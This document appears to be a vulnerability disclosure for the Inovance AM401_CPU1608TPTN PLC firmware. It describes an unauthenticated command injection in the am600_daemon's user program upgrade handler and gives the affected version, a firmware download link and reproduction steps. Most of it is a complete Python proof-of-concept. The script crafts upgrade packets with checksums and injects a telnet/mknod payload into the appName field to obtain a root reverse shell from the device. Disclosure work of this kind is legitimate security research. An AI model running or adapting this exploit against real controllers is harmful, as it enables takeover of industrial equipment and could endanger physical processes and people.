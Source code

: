 # Summary
Inovance is a listed technology company focusing on industrial automation control and drive technologies. It is also a global solution provider of optics, mechanics, electricity, hydraulics and pneumatics integrating drive, control, motors and precision machinery.

Inovance's AM401_CPU1608TPTN PLC was found to have an unauthorized arbitrary code execution vulnerability.

**Affected firmware versions:** HCPLC_AM401-CPU1608TPTN_21.38.0.0

# Vulnerability Analysis
You can download this firmware at this link: https://n0zom1z0.lanzoup.com/iDHbZ2akjusf
or https://github.com/N0zoM1z0/Vuln-Search/blob/main/HCPLC_AM401-CPU1608TPTN_21.38.0.0.upgrade

The vulnerability is in the am600_daemon binary file: 
![image](https://github.com/user-attachments/assets/12cf203f-6113-4cad-963f-b598704cef13)

The ExecuteUserProgramUpgrade function concatenates `userFileOfUpgrade.usrHeader.appName` in the data packet to the appName string, 
and then directly executes the `system(appName) command` without filtering the appName parameter, resulting in a command injection vulnerability.


# Vulnerability reproduction
1. Configure the test machine IP to 192.168.1.100, the tested device AM401-CPU1608TP IP to 192.168.1.88, and connect the test machine directly to the tested device. As shown in the figure below:
![image](https://github.com/user-attachments/assets/99b85fd6-5048-478a-b9e7-e239c450528d)

2. Use python3 to run the vulnerability trigger script "poc.py" on the test machine. No username or password is required. Use nc to listen to the port on the test machine to obtain the shell returned by the device under test with **root privileges**.
![image](https://github.com/user-attachments/assets/e61944f5-565f-4cd9-a99c-6310ec18cd16)
![image](https://github.com/user-attachments/assets/e9295534-7a06-4c5a-b001-095df08da049)
![image](https://github.com/user-attachments/assets/524d170a-69bc-43e8-8a09-fb683dc6418e)

# poc.py
```py
import socket,zlib
from time import sleep
def a(a):
    b=65535
    for c in a:
        b^=c
        for d in range(8):
            if((b&1)!=0):
                b=(b>>1)^40961
            else:
                b>>=1
    return b
def b(a,b,c):
    d=a.to_bytes(length=1,byteorder="big",signed=False)
    e=b.to_bytes(length=4,byteorder="big",signed=False)
    f=(len(e)+2).to_bytes(length=2,byteorder="big",signed=False)
    g=b'\xca'+b'\x00\x01'+b'\x00\x05'+b'\x00\x01'+f+d+e+b'\x00'
    h=a(g)
    g+=h.to_bytes(length=2,byteorder='big',signed=False)+b'\xea'
    sleep(0.2)
    c.send(g)
    return c.recv(1024)[9:13]
def c(a,b,c):
    d=a.to_bytes(length=1,byteorder="big",signed=False)
    e=len(b).to_bytes(length=2,byteorder="big",signed=False)
    f=(len(e+b)+2).to_bytes(length=2,byteorder="big",signed=False)
    g=b'\xca'+b'\x00\x01'+b'\x00\x05'+b'\x00\x02'+f+d+e+b+b'\x00'
    h=a(g)
    g+=h.to_bytes(length=2,byteorder='big',signed=False)+b'\xea'
    sleep(0.2)
    c.send(g)
    i=c.recv(1024)
    return print(i)
def d(b):
    c=b'\xca'+b'\x00\x01'+b'\x00\x03'+b'\x00\x05'+b'\x00\x00'+b'\x00'
    d=a(c)
    c+=d.to_bytes(length=2,byteorder='big',signed=False)+b'\xea'
    sleep(0.2)
    b.send(c)
    e=b.recv(1024)
    return e
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
f=("192.168.1.88",10855)
s.connect(f)
g=b';mknod a p; telnet 192.168.1.100 8888 0<a | /bin/sh 1>a;#'
h=len(g).to_bytes(length=1,byteorder='little',signed=False)
i=b'\x0b'+b'projectName'+h+g+b'\x07'+b'cpyName'+b'\x0a'+b'authorName'+b'\x07'+b'verName'+b'\x07\x00'+b'usrInfo'+b'\x08'+b'tpyeName'+b'\x00\x00\x00\x00'+b'\x00\x00\x00\x00'+b'\x00\x00\x00\x00'+b'\x00'*20
j=(len(i)+2).to_bytes(length=2,byteorder='little',signed=False)
k=b'\x01'+b'\x00\x00\x00\x01'+b'\x00'
l=(len(k)+4).to_bytes(length=4,byteorder='little',signed=False)
m=b'UserProgram'+j+i+l+k
n=zlib.crc32(m).to_bytes(length=4,byteorder='little',signed=False)
m+=n
o=b(2,len(m),s)
o=int.from_bytes(o,byteorder='big',signed=False)
if o==0:
    c(2,m,s)
    d(s)

```

# Discoverers
ylqncepu@163.com

https://github.com/N0zoM1z0
